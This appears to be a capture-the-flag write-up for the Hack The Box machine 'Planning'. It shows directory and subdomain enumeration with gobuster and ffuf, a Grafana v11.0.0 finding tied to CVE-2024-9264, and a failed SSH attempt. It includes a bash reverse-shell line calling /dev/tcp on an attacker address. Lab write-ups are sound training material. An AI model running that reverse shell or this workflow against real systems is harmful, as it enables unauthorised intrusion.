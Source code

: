 # NMAP Scan
- Port 22 and 80 --> planning.htb added to `etc/hosts`

# Gobuster 
## File scan
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/Web-Content]
└─# gobuster dir -u planning.htb -w common.txt                                                                                                                         
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://planning.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://planning.htb/css/]
/img                  (Status: 301) [Size: 178] [--> http://planning.htb/img/]
/index.php            (Status: 200) [Size: 23914]
/js                   (Status: 301) [Size: 178] [--> http://planning.htb/js/]
/lib                  (Status: 301) [Size: 178] [--> http://planning.htb/lib/]
Progress: 4744 / 4745 (99.98%)
```
## DNS Scan
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/DNS]
└─# gobuster dns -d planning.htb -w bitquark-subdomains-top100000.txt -t 100
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     planning.htb
[+] Threads:    100
[+] Timeout:    1s
[+] Wordlist:   bitquark-subdomains-top100000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 100000 / 100001 (100.00%)
===============================================================
Finished
===============================================================

```
# Ffuf
## File scan
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/Web-Content]
└─# ffuf -u http://planning.htb/FUZZ -w common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 205ms]
img                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 204ms]
index.php               [Status: 200, Size: 23914, Words: 8236, Lines: 421, Duration: 204ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 181ms]
lib                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 205ms]
:: Progress: [4744/4744] :: Job [1/1] :: 195 req/sec :: Duration: [0:00:25] :: Errors: 0 ::

```
## DNS Scan
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/DNS]
└─# ffuf -w bitquark-subdomains-top100000.txt -u http://planning.htb/ -H "Host: FUZZ.planning.htb" -t 150 -mc all -fs 178                                              

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 150
 :: Matcher          : Response status: all
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 179ms]
:: Progress: [100000/100000] :: Job [1/1] :: 626 req/sec :: Duration: [0:02:17] :: Errors: 0 ::

```
- Added grafana to etc/hosts
- Provided creds work in Grafana portal
- Page source is saying Grafana v11.0.0
-  https://github.com/nollium/CVE-2024-9264
-  Made a basic reverse shell file: `bash -i >& /dev/tcp/10.10.14.5/4444 0>&1`
-  Started listening on port 8000 with: `python3 -m http.server 8000`
# SSH
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/Web-Content]
└─# ssh admin@10.10.11.68
The authenticity of host '10.10.11.68 (10.10.11.68)' can't be established.
ED25519 key fingerprint is SHA256:iDzE/TIlpufckTmVF0INRVDXUEu/k2y3KbqA/NDvRXw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.68' (ED25519) to the list of known hosts.
admin@10.10.11.68's password: 
Permission denied, please try again.
```
Provided creds don't seem to work against SSH

# Lessons
- Assume the worst - double check results with different tools and different wordlists. And use the biggest one available to you but also a different one altogether. This box required the bitquark txt one to find the `grafana` subdomain when none other had that keyword needed for this challenge
- Ffuf found the subdomain with the wordlist but gobuster didnt even when i experimented with different threads (`-t`):(
